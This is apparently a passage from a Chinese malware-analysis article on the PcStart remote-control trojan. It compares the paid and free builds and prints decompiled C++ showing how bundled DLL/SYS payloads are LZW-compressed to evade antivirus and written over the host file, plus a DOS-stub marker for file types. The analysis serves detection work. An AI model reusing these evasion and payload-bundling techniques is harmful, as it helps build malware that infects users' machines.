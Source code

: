 下面这段代码可以看得出会员版本和普通版本区别，

1、使用的DLL不一样，会员版是完整版的DLL、普通版本是精简版的DLL。

2、主函数名的区别，会员版本是Vip20101125，免费版本是ServiceMain。

3、会员版本直接带完整控制插件DLL，免费版会先建立TCP连接传输控制插件（就是小马带大马减小体积），这个后续在提到。

![enter image description here](http://drops.javaweb.org/uploads/images/1c95cc1c972351b07175984d3b49ac43aab58ea6.jpg)

PcStart还有三处值得注意的亮点：

1 DLL和SYS文件数据加密存储，捆绑合并文件使用LZW编码压缩。避免被杀毒软件轻易的识别出捆绑（内置）PE文件，对躲避查杀有一定效果。但是有些强悍的杀毒还是能通过虚拟机脱壳或算法识别解码后将其藏匿的文件进行查杀。攻防最头痛莫过于对手太强大，所以现在手段不高明基本没有生存空间了。

```
FCLzw lzw;  
//附加信息数据
BYTE* pZipInfoData = ((BYTE*) pSaveInfo) + sizeof(MYSAVEFILEINFO);
DWORD nSrcInfoDataLen = 0;
BYTE* pSrcInfoData = NULL;
lzw.PcUnZip(pZipInfoData, &pSrcInfoData, &nSrcInfoDataLen);
CopyMemory(pInfo, pSrcInfoData, nSrcInfoDataLen);
delete [] pSrcInfoData;

if(IsFileComb)
{
    DWORD nSrcComDataLen = 0;
    BYTE* pZipComData = pZipInfoData + pSaveInfo->m_Size + pInfo->m_DllFileLen + pInfo->m_SysFileLen;
    BYTE* pComFileData = NULL;
    lzw.PcUnZip(pZipComData, &pComFileData, &nSrcComDataLen);
    delete [] pFileData;

    //修改原始文件
    while(1)
    {
        if(WriteMyFile(pCmdLines, pComFileData, nSrcComDataLen))
        {
            break;
        }
        Sleep(50);
    }

```

2 修改利用PE文件标志来识别文件类型，分析过程中我发现一处不错的思路。修改PE文件的标识“This program cannot be run in DOS mode.”中的“This”位置来标注这是一个什么类型文件，方便后期文件处理和执行。这是固定码可以将此处加入查杀特征库就可以识别了，快速扫描有点用，准确识别还是另外在找一处吧。

定义：

```
#define PS_START_WIN7       11001       //win7启动
#define PS_START_UPDATE     11002       //更新客户端
#define PS_START_FILECOMB   11003       //文件捆绑
#define PS_START_FILECOPY   11004       //文件捆绑拷贝

BYTE* GetCmdType()
{
    char m_FileName[256] = {0};
    GetModuleFileName(NULL, m_FileName, 255);
    HANDLE hFile = CreateFile(m_FileName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if(hFile == INVALID_HANDLE_VALUE)
    {
        return NULL;
    }
    DWORD nReadLen = 0;
```
